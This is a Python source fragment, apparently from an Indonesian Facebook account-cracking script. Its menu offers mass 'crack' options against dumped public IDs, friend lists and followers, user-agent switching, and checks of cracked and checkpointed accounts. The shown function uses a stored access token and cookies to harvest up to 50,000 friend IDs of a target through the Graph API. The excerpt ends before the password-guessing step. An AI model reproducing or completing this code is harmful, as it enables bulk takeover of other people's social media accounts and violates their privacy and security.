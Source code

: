     print(f"{P}[•] City           : {B}{gt['city']}")
    jalan(f"{P}[•] License Kamu   : {B}{LicenseKey}")
    print(f"{B} | ")
    print(f"{B}___________________________________________")
    print(f"{B} | ")
    jalan(f"{P}[1] Crack massal dari dump id publik ")
    jalan(f"{P}[2] Crack dari dump id publik")
    jalan(f"{P}[3] Crack dari dump id pertemanan sendiri")
    jalan(f"{P}[4] Crack dari dump id followers")
    jalan(f"{P}[5] Ganti user-agent")
    jalan(f"{P}[6] Chek results crack")
    jalan(f"{P}[7] Chek opsi account chekpoint")
    jalan(f"{M}[0] Log Out ")
    print(f"{B} | ")
    pp = input(f"{P}[•] Pilih Yang Mana : {B}")
    if pp in ["1","01"]:
      massal()
    elif pp in ["2","02"]:
        publik()
    elif pp in ["3","03"]:
        listteman()
    elif pp in ["4","04"]:
        followerss()
    elif pp in ["5","05"]:
        userset()
    elif pp in ["6","06"]:
        cek_results()
    elif pp in ["7","07"]:
        cek_hasil()
    elif pp in ["0","00"]:
      print(f'{B} | ')
      print(f'{P}[•] Terima Kasih Telah Memilih SC Ini Sebagai Pilihan Terpercayamu. Jangan Lupa Berikan Penilaian Terbaik Di Github Ya! Thank You!!{B}- Mhd Syafii -')
      print(f'{B} | ')
      print(f'{P}[•] Dengan Log Out Maka Seluruh Data Login Akan Terhapus. Berikut Adalah Data Yang Akan Dihapus :{B}[•]{P}Token/Cookies')
      print(f'{B} | ')
      input(f'{P}[•][{M}Enter Untuk Log Out{M}]')
      try:shutil.rmtree('login')
      except:pass
      exit()
    else:print(f'{M}[•] Isi Yang Benar !!');menu()

def massal():
    try:
        token=open("login/token.json","r").read()
        cookie = {'cookie':open('login/cookie.json','r').read()}
    except IOError:
        print(f"{B} | ")
        print(f"{B} | ")
        print(f"{P}[•]{M} cookie modar dinggo wae ");exit()
    try:
        print(f"{B} | ")
        print(f"{P}[•] Masukan berapa id yang ingin anda crack")
        print(f"{B} | ")
        tanya_total = int(input(f"{P}[•] Masukan jumlah id : {B}"))
    except:tanya_total=1
    for t in range(tanya_total):
        t +=1
        print(f"{B} | ")
        _id_=input(f"{P}[•] Masukan user id {P}{t} : {B}")
        try:
            url= requests.Session().get("https://graph.facebook.com/%s?fields=friends.limit(50000)&access_token=%s"%(_id_,token),cookies=cookie)